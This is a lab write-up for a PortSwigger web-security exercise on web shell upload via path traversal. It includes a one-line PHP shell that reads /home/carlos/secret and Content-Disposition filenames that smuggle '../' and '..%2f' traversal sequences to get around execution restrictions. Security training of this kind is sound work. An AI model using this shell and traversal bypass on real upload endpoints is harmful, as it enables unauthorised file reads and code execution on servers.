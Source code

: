 # Web shell upload via path traversal

## Description

[This lab](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-path-traversal) contains a vulnerable image upload function. The server is configured to prevent execution of user-supplied files, but this restriction can be bypassed by exploiting a secondary vulnerability. 

## Reproduction and proof of concept

1. Log in and upload an image as your avatar, then go back to your account page.
2. In Burp, go to **Proxy -> HTTP history** and notice that your image was fetched using a GET request to `/files/avatars/<YOUR-IMAGE>`. Send this request to Burp Repeater.
3. On your system, create a file called `exploit.php`, containing a script for fetching the contents of Carlos's secret. For example:

```text  
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

4. Upload this script as your avatar. Notice that the website doesn't seem to prevent you from uploading PHP files.
5. In Burp Repeater, go to the tab containing the `GET /files/avatars/<YOUR-IMAGE>` request. In the path, replace the name of your image file with `exploit.php` and send the request. Observe that instead of executing the script and returning the output, the server has just returned the contents of the PHP file as plain text.
6. In Burp's proxy history, find the `POST /my-account/avatar` request that was used to submit the file upload and send it to Burp Repeater.
7. In Burp Repeater, go to the tab containing the `POST /my-account/avatar` request and find the part of the request body that relates to your PHP file. In the `Content-Disposition` header, change the filename to include a directory traversal sequence:

```text
Content-Disposition: form-data; name="avatar"; filename="../exploit.php"
```

8. Send the request. Notice that the response says `The file avatars/exploit.php has been uploaded`. This suggests that the server is stripping the directory traversal sequence from the file name.
9. Obfuscate the directory traversal sequence by URL encoding the forward slash (`/`) character, resulting in:

```text
filename="..%2fexploit.php"
```

10. Send the request. 

![File upload](/_static/images/upload3.png)

The message now says `The file avatars/../exploit.php has been uploaded`. This indicates that the file name is being URL decoded by the server.

11. In the browser, go back to the account page.
12. In Burp's proxy history, find the `GET /files/avatars/..%2fexploit.php` request. This gives a `404` response. But you can request this file using `GET /files/exploit.php`.

![File upload](/_static/images/upload4.png)

13. Submit the secret to solve the lab.

## Exploitability

An attacker will need to log in; upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`; and then enter this secret using the button provided in the lab banner. 

